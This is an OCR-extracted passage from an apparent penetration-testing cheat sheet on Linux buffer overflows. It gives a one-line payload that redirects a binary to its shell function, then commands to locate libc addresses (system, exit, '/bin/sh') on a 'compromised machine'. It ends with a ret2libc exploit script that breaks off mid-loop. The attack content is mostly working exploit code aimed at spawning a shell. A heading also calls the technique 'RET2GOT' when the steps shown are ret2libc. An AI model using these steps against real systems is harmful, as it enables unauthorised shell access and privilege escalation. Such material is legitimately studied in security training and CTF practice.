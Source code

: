 Send this payload to the binary by piping the its output to the binary

```
python -c 'print "B"*45 + "\xcd\x84\x04\x08"' | BOF
```

After this, the binary will execute whatever the \[shell] function was supposed to do hence you changed program execution using BufferOver flow.

#### RET2GOT: BOF when NX and ASLR protections are enabled. \[ldd]

To perform the RET2GOT technique, we have the find couple addresses. The below commands are to be issued on the compromised machine

**Find libc address**

```
ldd [path to bof binary]
```

**Find libc system function:**

\[1]

```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
```

\[2]

```
readelf -s /lib32/libc.so.6 | grep system 
```

**Find libc exit function**

```
readelf -s /lib32/libc.so.6 | grep exit 
```

**Find libc /bin/sh reference**

\[1]

```
strings -a -t x /lib32/libc.so.6 | grep /bin/sh
```

\[2]

```
strings -atx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
```

Then we can use a script like below and execute on the target machine

```python
import struct, subprocess 
libc = 0xf75e2000 
sysOffset = 0x0003a940 
sysAddress = libc + sysOffset 
exitOffset = 0x0002e7b0 
exitAddress = libc + exitOffset 
binsh = libc + 0x0015900b 

bofshell = "A" * 512 
bofshell += struct.pack("<I",sysAddress)
bofshell += struct.pack("<I",exitAddress)
bofshell += struct.pack("<I",binsh)

trials = 0 
while True: 
		trials += 1 
```